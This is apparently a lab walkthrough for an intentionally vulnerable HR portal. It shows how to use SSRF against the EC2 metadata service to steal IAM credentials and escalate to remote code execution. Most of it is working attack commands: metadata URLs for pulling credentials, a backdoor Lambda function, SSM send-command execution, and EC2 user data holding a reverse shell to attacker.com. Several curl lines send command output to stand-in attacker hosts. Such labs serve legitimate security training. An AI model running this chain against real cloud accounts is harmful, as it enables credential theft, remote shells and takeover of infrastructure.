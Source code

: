 
# Attack 2: Server-Side Request Forgery (SSRF) to Remote Code Execution (RCE)

SSRF allows attackers to make the server perform HTTP requests to internal resources. This can be escalated to Remote Code Execution in certain scenarios.

## Step 1: Access the Document Upload Page

1. First, log in to the HR Portal (you can use the SQL injection from Attack 1)
2. Navigate to the Document Upload page (`/documents`)

## Step 2: Performing the SSRF Attack

1. Select any file to upload (the content doesn't matter, but having a small text file is helpful)
2. Look for the "Upload Destination" dropdown
3. By default, it will contain `s3://employee-bucket/documents/`
4. Either:
   - Select the "Debug - EC2 Metadata (SSRF)" option from the dropdown
   - OR select "Custom Location" and enter `http://169.254.169.254/latest/meta-data/`
5. Click "Send SSRF Request" (the button text will change when using HTTP URLs)
6. Observe the response displayed in the preview window below the upload form

## Step 3: Extract IAM Credentials

1. Now that you've confirmed the SSRF vulnerability works, let's extract IAM credentials
2. Set the upload URL to: `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
3. Click "Send SSRF Request"
4. This will return a list of IAM roles attached to the EC2 instance
5. Note the role name (e.g., `hr-portal-ec2-role`)
6. Change the URL to: `http://169.254.169.254/latest/meta-data/iam/security-credentials/hr-portal-ec2-role`
7. Click "Send SSRF Request" again
8. This will return temporary AWS credentials including:
   - `AccessKeyId`
   - `SecretAccessKey`
   - `Token`
9. Copy these credentials for the next steps

## Step 4: Configure AWS CLI with the Stolen Credentials

```bash
# Configure AWS CLI with the stolen credentials
export AWS_ACCESS_KEY_ID=ASIA...  # Use the AccessKeyId from Step 3
export AWS_SECRET_ACCESS_KEY=...  # Use the SecretAccessKey from Step 3
export AWS_SESSION_TOKEN=...      # Use the Token from Step 3
export AWS_DEFAULT_REGION=us-east-1  # Adjust region if necessary
```

## Step 5: Verify the Credentials Work

```bash
# Verify the credentials work by listing S3 buckets
aws s3 ls

# Check what IAM permissions you have
aws iam get-user
aws iam list-attached-user-policies --user-name YOUR_USER_NAME
```

## Step 6: Escalate SSRF to RCE

For escalating SSRF to RCE, there are several potential paths depending on the environment:

### Method 1: Lambda Function Method

Using the stolen AWS credentials, create a malicious Lambda function:

```bash
# Create a file with malicious code
cat > index.js << 'EOF'
exports.handler = async (event) => {
  const { exec } = require('child_process');
  return new Promise((resolve, reject) => {
    exec('curl http://attacker-server.com/$(whoami)', (error, stdout, stderr) => {
      resolve({
        statusCode: 200,
        body: { stdout, stderr }
      });
    });
  });
};
EOF

# Zip the file
zip function.zip index.js

# Create a new Lambda function
aws lambda create-function \
  --function-name backdoor \
  --runtime nodejs18.x \
  --handler index.handler \
  --zip-file fileb://function.zip \
  --role arn:aws:iam::ACCOUNT_ID:role/service-role/lambda-role

# Invoke the function
aws lambda invoke \
  --function-name backdoor \
  output.txt
```

### Method 2: SSM Send Command Method

If the EC2 role has SSM permissions, you can execute commands directly on instances:

```bash
# List all instances to find targets
aws ec2 describe-instances --query "Reservations[].Instances[].{ID:InstanceId,Name:Tags[?Key=='Name']|[0].Value,State:State.Name,IP:PrivateIpAddress}"

# Execute command on target instance
aws ssm send-command \
  --document-name "AWS-RunShellScript" \
  --parameters commands=["curl http://attacker.com/$(whoami)"] \
  --targets "Key=instanceids,Values=i-1234567890abcdef0"
```

### Method 3: EC2 Instance Profile Method

Create a new EC2 instance with a reverse shell in user data:

```bash
aws ec2 run-instances \
  --image-id ami-abcdef123456 \
  --instance-type t2.micro \
  --security-group-ids sg-abcdef123456 \
  --subnet-id subnet-abcdef123456 \
  --iam-instance-profile Name=hr-portal-ec2-role \
  --user-data "#!/bin/bash
  curl http://attacker.com/$(whoami)
  bash -i >& /dev/tcp/attacker.com/4444 0>&1"
```

## Step 7: Use AWS CLI to Discover Other EC2 Instances

```bash
# List all EC2 instances in the account
aws ec2 describe-instances

# Look for Jenkins server
aws ec2 describe-instances --filters "Name=tag:Name,Values=*Jenkins*" --query "Reservations[].Instances[].[InstanceId,PrivateIpAddress,Tags[?Key=='Name'].Value]"

# Store the Jenkins server information
JENKINS_INSTANCE_ID=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Demo-Jenkins" --query "Reservations[0].Instances[0].InstanceId" --output text)
JENKINS_PRIVATE_IP=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Demo-Jenkins" --query "Reservations[0].Instances[0].PrivateIpAddress" --output text)
```

With this information, you can proceed to Attack 3 (Network Scanning) to probe the Jenkins server.

## Troubleshooting SSRF Attacks

If you're not seeing the expected SSRF responses:

1. Make sure you're using the exact URL: `http://169.254.169.254/latest/meta-data/`
2. Try with trailing slash and without
3. Check the browser console for any errors
4. Try different metadata paths:
   - `http://169.254.169.254/latest/meta-data/ami-id`
   - `http://169.254.169.254/latest/meta-data/hostname`
   - `http://169.254.169.254/latest/meta-data/instance-id`
5. If using the application in a Docker container, the SSRF might not work as expected since Docker containers don't have access to the EC2 metadata service by default

